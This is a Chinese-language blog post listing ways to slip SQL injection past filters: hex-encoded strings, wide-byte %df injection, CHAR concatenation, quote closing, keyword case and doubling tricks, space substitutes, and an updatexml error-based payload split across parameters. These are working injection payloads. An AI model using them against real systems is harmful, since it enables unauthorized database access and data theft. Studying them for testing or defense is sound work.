 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## sql注入检测的一些绕过方法  
### 在mysql和mssql中重要的数据库：
- Information_schema数据库：作用是保存所有数据库信息。 
- information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍： 
- table_schema: 记录数据库名；
- table_name: 记录数据表名；
- table_rows: 关于表的粗略行估计；
- data_length : 记录表的大小（单位字节）；
- Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息

### 绕过sql注入检测的技巧:

### 遇到单引号转译 可以考虑使用16进制绕过：
table_name=’users ’——》table_name=0×757365727    
### 当’被转译为 \’ 时可以考虑宽字节注入：
   发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入   
### 避开单引号过滤：
1.输入单引号没反应，尝试输入”  
2.可以使用ascII 替代字符串不必使用单引号：       
- mysql:连接字符串是CONCAT函数,select name=concat(CHAR(97),char(114))   
-Oracle: select name=chr(97)\|\|chr(114)  
-Ms-SQL:select name=char(97)+char(114)

### --注释符被阻止时考虑闭合: 
‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a    
### =号被阻止：  
使用<>（不等于）例：!(table_schema<>database())   
    
### select 被过滤：
使用 SeLEct selselectect、%53%45%4c%45%54、se%a0lect来绕过。   
### 空格过滤：  
1.使用注释 /\*foo\*/： 
select/*foo*/uername,password/\*foo\*/from  
2.使用特殊符号代替空格：
%0b TAB键（垂直）、%a0 空格 、%09 TAB键（水平）、%0a 新建一行、 %0c 新的一页 、%0d return功能 

在url中使用--注释时，可能会需要使用--+才能成功注释 
and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-）%26） 

### HPF(http分割注入)
  post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1 ,这个构造语句把中间的password参数给注释掉了
